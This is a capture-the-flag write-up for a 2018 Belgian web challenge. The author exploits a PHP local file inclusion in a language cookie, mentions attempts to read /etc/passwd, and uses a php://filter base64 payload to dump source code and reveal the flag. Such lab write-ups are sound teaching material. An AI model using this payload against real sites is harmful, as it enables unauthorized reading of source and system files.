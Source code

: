 # Cyber Security Challenge Belgium: water-you-talking-about-50

**Category:** Web Security
**Points:** 50
**Solves:** 15
**Description:**

> (missing description)

## Write-up

I do not have the description anymore but it said something along the lines of *The flag is a russian word lost in translation*

![index.php]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/index.jpg "index.php")

When visiting the website we are greeted by a modern design of a Hydropump 2.1 installation. Because of the description I immediatly start browsing looking for a russian word which did not get translated. Nothing turns up for a while so I click on `Pусский` to get the russian version of the site. Still nothing... Time to dig a little deeper!

```
GET / HTTP/1.1
Host: **.***.***.***
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=en; ci_session=lmqa66bn85is3ruuls9301um2ivs86tq
Connection: close
Upgrade-Insecure-Requests: 1
```

I look at the request in Burp Suite and try a few basic tricks, still nothing...
However, when fiddling around with the language cookie I noticed some php errors turned up! Aha! We have some file inclusion going on here!

![php_error]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/php_error.jpg "php_error")

Trying to get /etc/passwd will not work because .php is appended and trying to use string terminators like %00 won't work, we have to try something else here. I tried to include remote files by specifying a URL as parameter, sadly allow_url_include was turned off so that failed.
PHP has a thing called filter, via this command we can use `php://filter/convert.base64-encode/resource=index` as a payload to get code execution in our lang cookie to get the php sourcecode of the index page in a base64 string. Now it was simply finding the right file that contains the flag and surely enough `php://filter/convert.base64-encode/resource=ru` gave us the flag!

![ru.php in base64]( https://raw.githubusercontent.com/azertyalex/write-ups/master/CSCBE-2018/water-you-talking-about-50/ru.jpg "ru.php in base64")

**Decoded**:

```
<?php
$footer = "&copy; Secure Operational Systems (SoS) 2017";

$welcome = "Добро пожаловать в контрольную панель для установки Hydropump 2.1, которая позволяет вам контролировать и конфигурировать состояние активной установки гидронасоса. Если у вас есть какие-либо вопросы, обратитесь в службу поддержки по телефону +1 294 234 098";
$signinbtn = "войти в систему";
$adminwelcome = "Добро пожаловать в админ-панель. Пожалуйста, выберите ваш выбор из вариантов ниже";
$adminvalve = "Вы можете управлять всеми клапанами ниже. Обратите внимание, что клапан не может быть отключен, если давление слишком велико.";
$adminsafety = "Всегда помните о соблюдении техники безопасности!";
$inspect = "Проверить";
$inspectlong = "Убедитесь, что все ваши загруженные параметры правильны, запустив их в соответствующей среде тестирования. Проблемы с конфигурацией - это проблема номер один с развертываниями и не покрываются вашим соглашением об обслуживании.";
$submit = "Отправить";
$submitlong = "Отправьте свои настройки на бэкэнд. Обратите внимание, что до новых настроек может пройти до трех циклов. Если никаких изменений не произошло, обратитесь в службу поддержки.";
$validate = "Проверить";
$validatelong = "После отправки убедитесь, что ваши настройки имеют желаемый эффект. Если что-то не так, вернитесь к предыдущей конфигурации как можно скорее.";

$historytitle = "Ниже перечислены все файлы, которые были загружены в прошлом. Обратите внимание, что они очищаются каждые 10 минут, чтобы система не становилась чистой и чистой.";

$enterconfig = "Пожалуйста, введите новые конфигурационные файлы.";

$btnupdate = "Обновить конфигурацию";
$btnview = "Просмотр истории конфигурации";
$btncontrol = "Управление клапаном";
$statetitle = "Текущий рабочий статус. Для внесения изменений необходимо пройти аутентификацию.";


$flag = "CSCBE{LFI_through_BASE64_FTW}";

?>


```